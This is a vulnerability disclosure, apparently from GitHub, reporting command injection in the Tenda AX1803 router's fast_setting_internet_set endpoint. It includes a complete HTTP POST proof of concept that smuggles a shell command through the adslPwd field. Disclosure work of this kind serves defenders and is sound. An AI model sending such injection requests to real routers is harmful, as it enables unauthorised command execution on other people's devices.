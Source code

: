

# ***\*Tenda AX1803 has a command injection vulnerability\****

## ***\*Summary\****

• ***\*type\****：Command injection vulnerability

• ***\*supplier\****：腾达（https://tenda.com.cn）

• ***\*Product\****: WiFi 路由器 AX1803

• ***\*Official website：\**** [AX1803升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/download/detail-3225.html)

• ***\*Firmware download address：\****https://down.tenda.com.cn/uploadfile/AX1803/US_AX1803v2.1br_v1.0.0.1_2890_CN_ZGYD01.zip

Tendaax1803 router adopts WiFi 6 (802.11ax) technology, with a dual frequency concurrency rate of 1775mbps (2.4ghz:574mbps, 5ghz:1201mbps), and is equipped with a 1.5GHz high-performance quad core processor, which comprehensively improves the network load capacity, faster data forwarding, and more stable operation for a long time. It is the preferred device for building a multimedia home network! fast_setting_internet_set Command Execution Vulnerability in set



## ***\*describe\****

### **** 1, Product Information: ****

Overview of the latest version of simulation for Tenda AX1803 router:

![image-20220624183557535](img/image-20220624183557535-16570841965551.png)

 

 

 

### ****2. Vulnerability Details\****

Tenda AX1803 was found in fast_setting_internet_set Command injection vulnerability in set function

![image-20220624133917486](img/image-20220624133917486.png)

![img](img/{D2E0A7E4-0A94-794D-9F4D-264A4631CF8E}.jpg)

When we set netWanType=2, we get a command injection vulnerability when we log in.



## ***\*3. Recurring loopholes and POC\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware (real machine) via qemu-system or other means

Attack using the following POC attacks

Note the replacement of password fields in cookies



```
POST /goform/fast_setting_internet_set
?0.20172657847322262 HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 183
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.10.1/main.html
Cookie: password=bb507bf3973a97a9bf1267699f712550vsbtgb

netWanType=2&adslUser=asd&adslPwd=$(ls >/tmp/ccccccccccccccccccccc)&vpnServer=&vpnUser=&vpnPwd=&vpnWanType=1&dnsAuto=1&staticIp=&mask=&gateway=&dns1=&dns2=&module=wan1&downSpeedLimit=
```





![image-20220706130247758](img/image-20220706130247758.png)